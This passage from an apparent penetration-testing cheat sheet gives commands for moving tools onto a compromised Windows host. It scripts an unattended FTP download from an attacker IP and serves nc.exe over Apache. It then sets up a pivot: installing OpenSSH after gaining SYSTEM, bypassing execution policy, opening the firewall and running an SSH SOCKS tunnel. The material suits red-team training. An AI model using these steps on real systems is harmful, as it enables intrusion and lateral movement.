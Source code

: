 We can simply run ftp `-s:ftp_commands.txt` and we can download a file with no user interaction.

Like this:

```shell
C:\Users\kitsunesec\Desktop>echo open 10.9.122.8>ftp_commands.txt
C:\Users\kitsunesec\Desktop>echo anonymous>>ftp_commands.txt
C:\Users\kitsunesec\Desktop>echo whatever>>ftp_commands.txt
C:\Users\kitsunesec\Desktop>ftp -s:ftp_commands.txt
```

#### Apache Server

- server: put your files into `/var/www/html`:

```shell
cp nc.exe /var/www/html
systemctl start apache2
```

- client: get via web browser, wget or powershell...

### Windows Pivoting

#### Openssh for Tunneling

Once you got SYSTEM on the target machine. download: [openssh_for_windows](https://github.com/PowerShell/Win32-OpenSSH/releases):

```powershell
powershell -command "Expand-Archive 'C:\<path-to-zipped-openssh>\openssh.zip' c:\<path-to-where-you-whereever-you-want\"
```

Then install it:

```powershell
powershell -ExecutionPolicy Bypass -File c:\<path-to-unzipped-openssh-folder>\install-sshd.ps1
```

Now if you need, just adjust the firewall rules to your needs:

```powershell
powershell -Command "New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22"
```

Start the sshd service:

```powershell
net start sshd
```

After these steps a regular ssh tunnel would sufice:

From your linux machine:

```shell
$ ssh -ACv -D <tunnel_port> <windows-user>@<windows-ip>
```
